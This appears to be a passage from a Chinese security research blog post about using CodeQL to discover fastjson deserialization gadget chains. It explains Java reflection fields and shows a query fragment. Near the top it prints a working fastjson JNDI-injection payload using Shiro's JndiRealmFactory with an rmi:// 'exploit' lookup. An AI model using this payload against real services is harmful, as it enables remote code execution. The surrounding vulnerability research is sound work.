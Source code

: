 执行链利用如下：

    String input = "{\"@type\":\"org.apache.shiro.jndi.JndiRealmFactory\", \"jndiNames\":\"rmi://127.0.0.1/exploit\"}";
    Object obj = JSON.parseObject(input);

但是通过这种查找函数调用的方式，对比 https://xz.aliyun.com/t/7789#toc-4 少了一条执行链。接下来分析通过FieldAccess来判断setXXX或getXXX函数。

首先了解Java中的Field。Field是一种属性，可以是一个类变量，一个对象变量，一个对象方法变量或者是一个函数的参数。说白了，就是java中的成员变量。

什么是成员变量呢？
每个成员变量有类型和值。

java.lang.reflect.Field 为我们提供了获取当前对象的成员变量的类型，和重新设值的方法。


**获取变量的类型**

类中的成员变量分为两种类型：基本类型或引用类型：

	• 基本类型（ 8 种）
		○ 整数：byte, short, int, long
		○ 浮点数：float, double
		○ 字符：char
		○ 布尔值：boolean
	
	• 引用类型
		○ 所有的引用类型都继承自 java.lang.Object
		○ 类，枚举，数组，接口都是引用类型
		○ java.io.Serializable 接口，基本类型的包装类（比如 java.lang.Double）也是引用类型

之前直接查找对应的setXXX、getXXX函数，从数据流的路径中看到的参数是函数内调用的成员变量jndiName

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/codeql_photo/11.png)

从成员变量的访问作为souce来分析的话，需要获取 目标表达式中调用到source的情况。通过如下实现

    fac.getSite().getName().indexOf("get")=0 or fac.getSite().getName().indexOf("set")=0)
    
